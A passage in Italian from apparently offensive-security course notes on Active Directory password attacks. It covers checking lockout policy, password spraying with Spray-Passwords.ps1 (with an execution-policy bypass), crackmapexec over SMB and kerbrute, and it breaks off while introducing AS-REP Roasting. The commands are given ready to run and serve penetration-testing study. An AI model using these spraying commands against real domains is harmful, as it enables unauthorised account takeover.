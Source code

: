Una delle informazioni importanti da ottenere prima di avviare un attacco di forza bruta o basato su delle wordlist, riguarda le policy collegare allo specifico account che si intende attaccare. Un dato molto importante, ricavato mediante l'utilizzo del comando _net accounts_ è quello relativo al lockout, ovvero il numero di tentativi possibili prima che l'account possa essere bloccato:

```bash
net accounts
```

Di seguito verranno riportati 3 esempi di _spraying attack_:
1) Utilizzo di LDAP e ADSI per eseguire un _password attack_ di tipo _low and slow_ nei confronti di utenti AD.
2) _Password spraying attack_ nei confronti di utenti AD sfruttando SMB.
3) _Password spraying attack_ basato sull'ottenimento di un TGT.

1) Utilizzo di _Spray-Passwords_ per ricavare delle credenziali partendo da una password nota:

```bash
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass $PASSWORD -Admin
```

2) SMB Attack tramite _crackmapexec_ partendo da una password nota:

```bash
crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME

crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME --continue-on-success

crackmapexec smb 192.168.224.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```

3) _Password spraying attack_ basato sull'ottenimento di un TGT.

```bash
.\kerbrute_windows_amd64.exe passwordspray -d $DOMAIN_NAME .\user_list.txt "$PASSWORD"
```

## 22.2.2. AS-REP Roasting

 Il processo di autenticazione via Kerberos si basa sull'invio di un AS-REQ e, dopo la verifica da parte del domain controller, sulla ricezione di una AS-REP contenente una session Key e un TGT. Questo step prende il nome di _Kerberos preauthentication_ e previene l'offline password guessing.

Senza questo step, un attaccante può inviare una richiesta AS-REQ al domain controller per conto di qualsiasi utente dell'AD. Una volta ottenuta la risposta AS-REP dal domain controller, l'attaccante può eseguire un offline password attack sfruttando la parte decriptata della risposta response. Questo attacco prende il nome di _AS-REP Roasting_.

Vale la pena sottolineare che di default, l'opzione _Do not require Kerberos preauthentication_ è disabilitata per ogni utente. Nel caso non lo fosse possiamo procedere con l'attacco.

Ci sono due possibilità:
1) Da kali
2) Dalla macchina windows

1) Utilizzo di _GetNPUsers_ per eseguire l'attacco e di _hashcat_ per ricavare la password:
